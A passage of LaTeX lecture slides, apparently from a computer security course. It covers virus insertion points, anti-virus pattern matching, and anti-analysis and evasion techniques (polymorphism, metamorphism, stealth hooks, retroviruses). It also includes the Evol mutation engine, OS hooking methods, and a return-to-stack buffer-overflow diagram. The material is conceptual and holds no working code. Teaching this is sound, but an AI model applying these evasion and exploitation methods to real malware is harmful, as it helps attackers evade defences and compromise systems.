    \begin{itemize}
    \item entry address
        \begin{itemize}
        \item perhaps a bit obvious
        \end{itemize}
    \item overwrite machine code and restore
    \item edit call/jump/ret/etc.
        \begin{itemize}
        \item pattern-match for machine code
        \item in dynamic linking ``stubs''
        \item in symbol tables
        \item call/ret at end of virus
        \end{itemize}
    \end{itemize}
\end{frame}

\section{anti-virus and anti-anti-virus techniques}

\begin{frame}{pattern matching}
    \begin{itemize}
    \item regular expressions --- (almost) one-pass
    \item fixed strings with ``wildcards''
        \begin{itemize}
        \item addresses/etc. that change between instances of malware
        \item insert nops/variations on instructions
        \end{itemize}
    \end{itemize}
\end{frame}

\usetikzlibrary{arrows,automata}
\begin{frame}[fragile,label=flexHow]{flex: state machines}
\lstset{
        style=small,
        language={},
        moredelim={**[is][\btHL<2|handout:0>]{@hi2@}{@endhi@}},
        }
\begin{tikzpicture}
\node (flexStuff) {
\begin{lstlisting}
foo     {...}
.       {...}
\n      {...}
\end{lstlisting}
};
\begin{scope}[every node/.style={font=\tt,thick}]
\node[initial, state,below=1cm of flexStuff,font=\normalfont\it] (start) {};
\node[state,right=1cm of start] (f) {f};
\node[state,right=1cm of f] (fo) {fo};
\node[state,right=1cm of fo,accepting] (foo) {foo};
\node[state,below right=2cm of start,accepting] (dot) {.};
\node[state,below=1.5cm of start,accepting] (newline) {\textbackslash{}n};
\end{scope}
\path[-Latex,thick] (start) edge node[above] {\tt f} (f)
                    (f) edge node[above] {\tt o} (fo)
                    (fo) edge node[above] {\tt o} (foo)
                    (start) edge node[sloped,above] {other} (dot)
                    (start) edge node[left] {\textbackslash{}n} (newline);
\begin{visibleenv}<2>
    \path[-Latex,blue,dashed] (f) edge node[right] {(back 1)} (dot);
    \path[-Latex,blue,dashed] (fo) edge[out=-45,in=-30] node[midway, sloped, below] {(back 2)} (dot);
\end{visibleenv}
\end{tikzpicture}

\end{frame}

\begin{frame}{behavior-based detection/blocking}
    \begin{itemize}
    \item modifying executables? etc.
    \item must be malicious
    \end{itemize}
\end{frame}

\begin{frame}{armored viruses, etc.}
    \begin{itemize}
    \item evade analysis: 
        \begin{itemize}
        \item ``encrypt'' code (break disassembly)
        \item detect/break debuggers
        \item detect/break VMs
        \end{itemize}
    \item evade signatures:
        \begin{itemize}
        \item \myemph{oligomorphic/polymorphic}: varying ``decrypter''
        \item \myemph{metamorphic}: varying ``decrypter'' and varying ``encrypted'' code
        \end{itemize}
    \item evade active detection:
        \begin{itemize}
        \item \myemph{tunnelling} --- skip anti-virus hooks
        \item \myemph{stealth} --- `hook' system calls to say ``executable/etc. unchanged''
        \item \myemph{retroviruses} --- break/uninstall/etc. anti-virus software
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}<1>[fragile,label=caseEvol]{case study: Evol}
    \begin{itemize}
    \item via Lakhatia et al, ``Are metamorphic viruses really invincible?'', Virus Bulletin, Jan 2005.
    \item ``\myemph{mutation engine}''
        \begin{itemize}
        \item run as part of propagating the virus
        \end{itemize}
    \end{itemize}
    \begin{tikzpicture}
        \tikzset{
            every node/.style={font=\small,align=center},
            hiOn/.style={alt=<#1>{red,ultra thick}{}},
        }
        \path node[draw,hiOn=2] (disasm) {disassemble} -- ++(2.5cm,0) node (lens) {instr. \\ lengths} -- ++(2cm,0) node[draw,hiOn=3] (xform) {transform}
              -- ++(2cm,0) node[draw,hiOn=4] (reloc) {relocate};
        \node (origCode) at ([xshift=-2cm,yshift=1cm]disasm.north) {code};
        \node (finalCode) at ([xshift=2cm,yshift=-1cm]reloc.south) {code};
        \begin{scope}[thick,-Latex]
        \draw (origCode) |- (disasm);
        \draw (disasm) -- (lens);
        \draw (lens) -- (xform);
        \draw (xform) -- (reloc);
        \end{scope}
    \end{tikzpicture}
\end{frame}

\begin{frame}<1>[label=hookingList]{hooking mechanisms}
    \begin{itemize}
    \item hooking --- getting a `hook' to run on (OS) operations
        \begin{itemize}
        \item e.g. creating new files
        \end{itemize}
    \item ideal mechanism: \myemph<2>{OS support}
    \item less ideal mechanism: \myemph<3>{change library loading}
        \begin{itemize}
        \item e.g. replace `open', `fopen', etc. in libraries
        \end{itemize}
    \item less ideal mechanism: \myemph<4>{replace OS exception} (system call) handlers
        \begin{itemize}
        \item very OS version dependent
        \end{itemize} 
    \end{itemize}
\end{frame}


\section{vulnerabilities}

\begin{frame}{software vulnerabilities}
    \begin{itemize}
    \item unintended program behavior an adversary can use
    \vspace{.5cm}
    \item \myemph{memory safety bugs}
        \begin{itemize}
        \item especially buffer overflows
        \end{itemize}
    \item not checking inputs/permissions
    \item injection/etc. bugs
    \end{itemize}
\end{frame}

\section{exploits and stack smashing}

\begin{frame}{exploits}
    \begin{itemize}
    \item something that uses a vulnerability to do something
    \item example: stack smashing --- exploit for stack buffer overflows
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=returnToStack]{return-to-stack}
\begin{tikzpicture}
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    xscale=1.3,
}
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[inner sep=0mm,at={(5, 0.1)},anchor=south] { highest address (stack started here)};
\node[inner sep=0mm,at={(5, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt vulnerable}: \\ \fontsize{10}{11}\selectfont\tt\bfseries\color{red}70 fd ff ff  ff ff 00 00 (0x7fff ffff fd70)};
\draw[onStack,fill=black!20] (0, -1.25) rectangle (10, -2.25) node[midway,align=center,font=\small] {unused space (20 bytes)};
\draw[onStack,fill=blue!20] (0, -2.25) rectangle (10, -5.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

\draw[onStack] (0, -5.25) rectangle (10, -6) node[midway,align=center,font=\small] {return address for {\tt scanf}};

\begin{visibleenv}<2>
\draw[-Latex,red,ultra thick] ([yshift=2.5mm]stackAddr.south east) -- ++(.25cm,0cm) |- (0.25, -5);
\node[anchor=south west,red] at (0.25, -4.75) {
    machine code for the attacker to run
};
\end{visibleenv}

\end{tikzpicture}
\end{frame}
